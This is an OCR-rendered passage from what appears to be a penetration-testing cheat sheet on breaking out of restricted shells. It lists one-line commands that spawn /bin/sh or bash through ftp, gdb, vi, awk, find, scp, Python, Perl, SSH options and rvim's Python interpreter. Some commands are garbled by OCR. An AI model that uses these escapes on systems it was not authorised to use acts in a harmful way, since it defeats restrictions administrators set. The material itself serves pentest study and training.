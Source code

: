 ```
                    - ftp -> !/bin/sh
                    - gdb -> !/bin/sh
                    - more/ less/ man -> !/bin/sh
                    - vi -> :!/bin/sh : Refer Breaking out of Jail : Restricted Shell and Restricted Accounts and Vim Tricks in Linux and Unix
                    - scp -S /tmp/getMeOut.sh x y : Refer Breaking out of rbash using scp
                    - awk ‘BEGIN {system(“/bin/sh”)}’
                    - find / -name someName -exec /bin/sh ;
                    - tee
                       - echo "Your evil code" | tee script.sh
   ```

###  Invoke shell thru scripting language

```
- Python
                           - python -c 'import os; os.system("/bin/bash")
- Perl
                           - perl -e 'exec "/bin/sh";'
                           ```

#### SSHing from outside

Use SSH on your machine to execute commands before the remote shell is loaded:
```
- ssh username@IP -t "/bin/sh"
                   ```
Start the remote shell without loading “rc” profile (where most of the limitations are often configured)
```
 - ssh username@IP -t "bash --noprofile"
                   ```

#### Getting out of rvim
```

                - Main difference of rvim vs vim is that rvim does not allow escape to shell with previously described techniques and, on top of that, no shell commands at all. Taken from vimjail
                ```

####  To list all installed features it is possible to use ‘:version’ vim command:
```

                    - Code:
                       :version

                       ```

Examining installed features and figure out which interpreter is installed.

If python/ python3 has been installed
```
 :python3 import pty;pty.spawn("/bin/bash")
```

### Article:
``` http://securebean.blogspot.nl/2014/05/escaping-restricted-shell_3.html
```
##Gather information from files
###In case of LFI or unprivileged shell, gathering information could be very useful.
```

** Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_
```